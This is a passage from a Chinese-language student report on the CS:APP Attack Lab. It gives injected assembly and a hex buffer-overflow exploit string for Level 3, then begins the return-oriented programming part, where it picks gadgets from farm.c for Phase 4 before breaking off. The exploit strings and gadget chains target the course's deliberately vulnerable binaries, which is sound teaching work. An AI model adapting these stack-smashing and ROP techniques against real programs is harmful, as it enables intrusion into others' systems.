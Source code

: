 ![image-20220608215351117](/media/sprout/SproutUSTC/CSAPP  Lab Report2.assets/image-20220608215351117.png)

注入代码为：

```assembly
movq	$0x5561dca8, %rdi
pushq	$0x4018fa
retq
```

之后的步骤和 Level 2 差不多，就不一步步截图了，最后构造出来的字符串可以是：

```
48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```

保存为`level3.txt`，做测试。

![image-20220608220242882](/media/sprout/SproutUSTC/CSAPP  Lab Report2.assets/image-20220608220242882.png)

### Part II: Return-Oriented Programming

**限制**：栈上不可插入可执行代码。

需要在已有程序中寻找以`ret`结尾的特定指令序列（称之为`gadget`），每个`gadget`结束后跳转到下一个`gadget`，就这样连续执行一系列的指令代码来对程序进行攻击。

#### Level 2（Phase 4）

需要做的和 Phase 2 一样，只不过处理手段要按照**限制**来做。

README 提示我们，`gadget`需要从`farm.c`中获取，并且编译的时候需要`-Og`，那么我们先编译`fram.c`，获得汇编代码，看看有哪些可以用。

> - All the gadgets you need can be found in the region of the code for rtarget demarcated by the functions `start_farm` and `mid_farm`.
>
> - You can do this attack with just two gadgets. 

我们在 Phase 2 的汇编代码中用到

```assembly
movq	$0x59b997fa, %rdi
pushq	$0x4017ec
retq
```

用`gadget`来做，需要用到两个指令：`popq`和`movq`。`popq`会把栈顶的 cookie 弹出到某寄存器，再用`movq`命令传送给`%rdi`，也即

```assembly
popq	%rax
movq	%rax, %rdi
```

查表得知，第一行的指令为`58`，可以用

```assembly
0000000000000035 <setval_424>:
  35:	f3 0f 1e fa          	endbr64 
  39:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  3f:	c3 
```

